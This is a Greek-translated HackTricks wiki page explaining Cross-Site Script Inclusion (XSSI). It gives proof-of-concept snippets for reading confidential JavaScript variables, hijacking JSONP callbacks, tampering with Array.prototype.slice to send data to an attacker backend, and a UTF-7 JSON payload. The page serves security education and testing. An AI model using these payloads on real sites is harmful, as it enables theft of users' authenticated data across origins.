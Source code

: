 # XSSI (Cross-Site Script Inclusion)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


## Basic Information

**Cross-Site Script Inclusion (XSSI)** είναι μια ευπάθεια που προκύπτει από τη φύση της ετικέτας `script` στο HTML. Σε αντίθεση με τους περισσότερους πόρους, οι οποίοι υπόκεινται στην **Πολιτική Ίδιου Προέλευσης (SOP)**, τα σενάρια μπορούν να συμπεριληφθούν από διαφορετικά domains. Αυτή η συμπεριφορά προορίζεται να διευκολύνει τη χρήση βιβλιοθηκών και άλλων πόρων που φιλοξενούνται σε διαφορετικούς διακομιστές, αλλά εισάγει επίσης έναν πιθανό κίνδυνο ασφάλειας.

### Key Characteristics of **XSSI**:
- **Bypass of SOP**: Τα σενάρια εξαιρούνται από την **Πολιτική Ίδιου Προέλευσης**, επιτρέποντάς τους να συμπεριληφθούν σε διαφορετικά domains.
- **Data Exposure**: Ένας επιτιθέμενος μπορεί να εκμεταλλευτεί αυτή τη συμπεριφορά για να διαβάσει δεδομένα που φορτώνονται μέσω της ετικέτας `script`.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** είναι ιδιαίτερα σχετικό για δυναμικό JavaScript ή **JSON με Padding (JSONP)**. Αυτές οι τεχνολογίες συχνά χρησιμοποιούν πληροφορίες "ambient-authority" (όπως cookies) για αυθεντικοποίηση. Όταν γίνεται αίτημα σενάριου σε διαφορετικό host, αυτά τα διαπιστευτήρια (π.χ. cookies) περιλαμβάνονται αυτόματα στο αίτημα.
- **Authentication Token Leakage**: Εάν ένας επιτιθέμενος μπορεί να παραπλανήσει τον περιηγητή ενός χρήστη να ζητήσει ένα σενάριο από έναν διακομιστή που ελέγχει, μπορεί να είναι σε θέση να αποκτήσει πρόσβαση σε ευαίσθητες πληροφορίες που περιέχονται σε αυτά τα αιτήματα.

### Types

1. **Static JavaScript** - Αυτό αντιπροσωπεύει τη συμβατική μορφή του XSSI.
2. **Static JavaScript with Authentication** - Αυτός ο τύπος είναι ξεχωριστός επειδή απαιτεί αυθεντικοποίηση για πρόσβαση.
3. **Dynamic JavaScript** - Περιλαμβάνει JavaScript που δημιουργεί δυναμικά περιεχόμενο.
4. **Non-JavaScript** - Αναφέρεται σε ευπάθειες που δεν περιλαμβάνουν άμεσα JavaScript.

**The following information is a sumary of [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Check it for further details.


### Regular XSSI
Σε αυτή την προσέγγιση, ιδιωτικές πληροφορίες είναι ενσωματωμένες μέσα σε ένα παγκοσμίως προσβάσιμο αρχείο JavaScript. Οι επιτιθέμενοι μπορούν να εντοπίσουν αυτά τα αρχεία χρησιμοποιώντας μεθόδους όπως η ανάγνωση αρχείων, αναζητήσεις λέξεων-κλειδιών ή κανονικές εκφράσεις. Μόλις εντοπιστούν, το σενάριο που περιέχει ιδιωτικές πληροφορίες μπορεί να συμπεριληφθεί σε κακόβουλο περιεχόμενο, επιτρέποντας μη εξουσιοδοτημένη πρόσβαση σε ευαίσθητα δεδομένα. Ένα παράδειγμα τεχνικής εκμετάλλευσης φαίνεται παρακάτω:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script> alert(JSON.stringify(confidential_keys[0])); </script>
```
### Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI
Αυτοί οι τύποι επιθέσεων XSSI περιλαμβάνουν εμπιστευτικές πληροφορίες που προστίθενται δυναμικά στο σενάριο ως απάντηση σε αίτημα χρήστη. Η ανίχνευση μπορεί να πραγματοποιηθεί στέλνοντας αιτήματα με και χωρίς cookies και συγκρίνοντας τις απαντήσεις. Εάν οι πληροφορίες διαφέρουν, αυτό μπορεί να υποδηλώνει την παρουσία εμπιστευτικών πληροφοριών. Αυτή η διαδικασία μπορεί να αυτοματοποιηθεί χρησιμοποιώντας εργαλεία όπως το [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp extension.

Εάν τα εμπιστευτικά δεδομένα αποθηκεύονται σε μια παγκόσμια μεταβλητή, μπορούν να εκμεταλλευτούν χρησιμοποιώντας παρόμοιες μεθόδους με αυτές που χρησιμοποιούνται στο Regular XSSI. Ωστόσο, εάν τα εμπιστευτικά δεδομένα περιλαμβάνονται σε μια απάντηση JSONP, οι επιτιθέμενοι μπορούν να καταλάβουν τη συνάρτηση callback για να ανακτήσουν τις πληροφορίες. Αυτό μπορεί να γίνει είτε με την παραποίηση παγκόσμιων αντικειμένων είτε με την εγκατάσταση μιας συνάρτησης που θα εκτελείται από την απάντηση JSONP, όπως αποδεικνύεται παρακάτω:
```html
<script>
var angular = function () { return 1; };
angular.callbacks = function () { return 1; };
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=angular.callbacks._7" type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked));
};
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Για μεταβλητές που δεν βρίσκονται στο παγκόσμιο namespace, η *prototype tampering* μπορεί μερικές φορές να εκμεταλλευτεί. Αυτή η τεχνική εκμεταλλεύεται το σχεδιασμό της JavaScript, όπου η ερμηνεία του κώδικα περιλαμβάνει την περιήγηση στην αλυσίδα πρωτοτύπων για να εντοπιστεί η καλούμενη ιδιότητα. Με την αντικατάσταση ορισμένων συναρτήσεων, όπως το `Array`'s `slice`, οι επιτιθέμενοι μπορούν να αποκτήσουν πρόσβαση και να διαρρεύσουν μη παγκόσμιες μεταβλητές:
```javascript
Array.prototype.slice = function(){
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this);
};
```
Περισσότερες λεπτομέρειες σχετικά με τα επιθετικά διανύσματα μπορούν να βρεθούν στο έργο του Ερευνητή Ασφαλείας [Sebastian Lekies](https://twitter.com/slekies), ο οποίος διατηρεί μια λίστα με [διανύσματα](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI
Η έρευνα του Takeshi Terada εισάγει μια άλλη μορφή XSSI, όπου τα αρχεία Non-Script, όπως το CSV, διαρρέουν διασυνοριακά περιλαμβάνοντας τα ως πηγές σε μια ετικέτα `script`. Ιστορικές περιπτώσεις XSSI, όπως η επίθεση του Jeremiah Grossman το 2006 για την ανάγνωση ενός πλήρους βιβλίου διευθύνσεων Google και η διαρροή δεδομένων JSON του Joe Walker το 2007, αναδεικνύουν τη σοβαρότητα αυτών των απειλών. Επιπλέον, ο Gareth Heyes περιγράφει μια παραλλαγή επίθεσης που περιλαμβάνει κωδικοποιημένα σε UTF-7 JSON για να ξεφύγει από τη μορφή JSON και να εκτελέσει σενάρια, αποτελεσματική σε ορισμένους περιηγητές:
```javascript
[{'friend':'luke','email':'+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-'}]
```

```html
<script src="http://site.tld/json-utf7.json" type="text/javascript" charset="UTF-7"></script>
```
{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
